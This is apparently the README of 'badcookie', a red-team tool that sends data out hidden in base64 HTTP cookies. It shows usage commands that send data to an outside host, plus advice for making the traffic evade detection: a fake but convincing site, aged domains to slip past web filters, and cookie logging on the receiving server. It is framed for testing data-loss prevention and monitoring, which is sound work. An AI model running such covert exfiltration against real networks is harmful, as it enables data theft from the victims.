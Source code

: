 # THIS REPO IS NOT MAINTAINED ANYMORE

# Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain name. It can be a news, blog or any other site, so when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish).
* Fill the site with real looking content.
* If you are testing systems where there is a web filtering proxy involved, try and use a  domain name which is more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in Apache web server ( you can use any server you like). The sample config file  [000-default.conf](https://github.com/akbarq/badcookie/blob/master/apache_conf/000-default.conf) can be used to enable cookie logging. 
* Place the **000-default.conf** file in **/etc/apache2/sites-enabled/** and restart Apache. You should now see a file called **“cookies.log”** in **/var/log/apache2**.
* Execute the badcookie script from the victim machine / network.
* After executing the script you should see the following log entry in cookies.log file. The log file shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.



